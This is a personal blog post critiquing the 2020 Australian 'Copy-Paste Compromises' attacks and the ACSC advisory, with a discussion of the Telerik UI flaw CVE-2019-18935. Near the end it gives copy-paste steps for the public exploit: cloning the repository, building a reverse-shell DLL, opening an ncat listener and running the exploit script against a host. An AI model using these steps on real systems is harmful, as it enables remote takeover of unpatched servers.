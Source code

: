 ```yaml
---
title: Copy-Paste Compromises
thumbnail: copypaste-compromises-thumb.png
---
```


Today I woke up to an organisation-wide email telling me that "Australia is currently being hit by a cyber-attack which is targeting all levels of government, political parties and private businesses". Hey that sounds fun, so I look at the news and see this headline: "[Cyber-attack Australia: sophisticated attacks from ‘state-based actor’, PM says](https://www.theguardian.com/australia-news/2020/jun/19/australia-cyber-attack-attacks-hack-state-based-actor-says-australian-prime-minister-scott-morrison)."

Ok so the government said it. Now as weird as it may seem, this is the first thing I thought when I read that: "Oh so it's probably bullshit then". Our government (but mostly a certain party) has a bad track record of calling things cyber attacks. Back in 2016 they blamed a DDoS attack on taking down the ABS Census website[^1], when in reality people where just, you know... **using it**. 

Apparently we invest absolutely nothing in our technology infrastructure, because these absolute mad lads went and blamed another failure on a DDoS attack earlier this year. This time it was people trying to register for Centrelink[^2], which is a little worse then people unable to fill out census forms as instead it affects people who have lost their jobs due to a certain global pandemic and need support.

And while not directly related to cyber security, let me remind you about the NBN. What a bloody farce. Any time the Coalition starts talking about techonology (or anything, really), my brain immediately starts shutting down in fear of getting an aneurysm.

But back to the topic on-hand, unfortunately, or fortunately for me because I seem to enjoy reading postmortems, this time it's actually a cyber attack. According to the previous article: "we know it is a sophisticated state-based cyber actor because of the scale and nature of the targeting and the tradecraft used." 

I won't comment about the "state-based cyber actor", because even though they won't say who it is, it's pretty obvious. So we will take that part out and instead look at how it was "sophisticated [...] because of the scale and nature of the targeting and the tradecraft used." Sophisticated huh? That's interesting. 

The Australian Cyber Security Centre’s (ACSC) published an advisory that details the tactics, techniques and procedures (TTPs) identified during the investigation of this attack. You can read the summary [here](https://www.cyber.gov.au/threats/advisory-2020-008-copy-paste-compromises-tactics-techniques-and-procedures-used-target-multiple-australian-networks). But I'm going to look more at the [PDF](https://www.cyber.gov.au/sites/default/files/2020-06/ACSC-Advisory-2020-008-Copy-Paste-Compromises.pdf) that goes into more detail.

Immediately we read that "the title ‘Copy-Paste Compromises’ is derived from the actor’s heavy use of proof of concept exploit code, web shells and other tools copied almost identically from open source."

Oh no, I'm already spotting a few red flags with this. Let's read that again with a focus on the important parts.

> Heavy use of proof of concept exploit code [...] copied almost identically from open source.

Now look, I didn't expect it to be Stuxnet 2: Electric Boogaloo and have a million zero days, but these are not the words we should be reading when we are looking for a "sophisticated" cyber attack. And it's a little concering that the Australian government (and some businesses, but I expect them to have crap security anyway) are not able to defend against well known, open source vulnerabilities enacted by what seems to be a bunch of script kiddies.

But to be fair, it looks like most of the initial access actually comes from spearphishing people, which is a hard thing to defend against. It's more about education and telling people to stop being stupid than it is about securing your infrastructure. However, I consider social engineering to be cheating because I have social anxiety and am unable to do it, so I'm going to ignore it.

Instead let's look at "exploitation of public facing infrastructure—primarily through the use of remote code execution vulnerability in unpatched versions of Telerik UI." They cite CVE-2019-18935: "Telerik UI - Remote Code Execution via Insecure Deserialization" as one of the most common exploits used. 

Telerik UI for ASP.NET AJAX is a widely used suite of UI components for web applications. It seems `RadAsyncUpload`, a file handler in Telerik UI for ASP.NET AJAX that enables uploading files asynchronously, insecurely deserializes JSON objects in a manner that results in arbitrary remote code execution on the software's underlying host.[^3]

The basic idea of the exploit is that you upload a "mixed mode assembly" DLL using Telerkit UI and specifying it as a "gaget", which is "a class within the executing scope of the application that, as a side effect of being instantiated and modified via setters or field assignment, has special properties that make it useful during deserialization." 

Yeah I don't really know what any of that is either. Anyway, then some funky stuff happens when it attemps to deserialise it and bing bong, you got yourself remote code execution. This is a pretty common way of RCE and probably should have been found eariler, so RadAsyncUpload seems more like **Bad**AsyncUpload to me! Hah!

...

Ok moving on.

In case you are not aware of how easy it is to use exploits like these and because I want to pad this post out, let's take a look at the steps you need to do the exploit:

1. Download the repo: 
```
git clone https://github.com/noperator/CVE-2019-18935.git && cd CVE-2019-18935
```

2. Install the Python environment.
```
python3 -m venv env
source env/bin/activate
pip3 install -r requirements.txt
```

3. Build the reverse shell that they provide for you (need Visual Studio installed).
```
sed -i .bu 's/<HOST>/<HOST>/; s/<PORT>/<PORT>/' rev_shell.c
build_dll.bat rev_shell.c
```

4.  Setup Netcat for callback.
```
sudo ncat -lvp <PORT>
```

4. Run the thing.
```
python3 CVE-2019-18935.py -u <HOST>/Telerik.Web.UI.WebResource.axd?type=rau -v <VERSION> -f 'C:\Windows\Temp' -p sleep_2019121205271355_x86.dll
```

You can practically copy and paste all of this as there were only three things you needed to change:

* The `<HOST>` param: Obviously you need to specify what host your attacking.
* The `<PORT>` param: The port you'll be listening on for the reverse shell.
* The `<VERSION>` param: This is the version of Telerik UI that is being used as newer version have been patched. You can normally find what version it is by checking the HTML, otherwise you can brute-force it.

Most of the time, you'd make your own reverse shell and tailor it for your victim (if you're any good, I never do it because I'm lazy and stupid). But the report says that "most common payloads used by the actor were copies of public proof of concept exploit code for a sleep test and reverse shell binary" which are exactly the ones we just looked at (step 3). 

There's way more in the other sections like Privilege Escalation, Credential Access, etc. But I just wanted a quick look at how "sophisticated" the attack was. And it turns out to be pretty average if I'm to be honest.

This is why I don't do infosec content anymore, it's pretty boring just running the exploits and instead all the fun comes from making/finding them. But I can't do that stuff cus I'm dumb.

Moral of the story: patch your systems and stay in school.

----

[^1]: https://theconversation.com/did-the-census-really-suffer-a-denial-of-service-attack-63755

[^2]: https://www.theguardian.com/australia-news/2020/mar/23/incompetence-attack-mygov-website-did-not-crash-because-of-ddos-cyber-assault-as-stuart-robert-claimed

[^3]: https://know.bishopfox.com/research/cve-2019-18935-remote-code-execution-in-telerik-ui
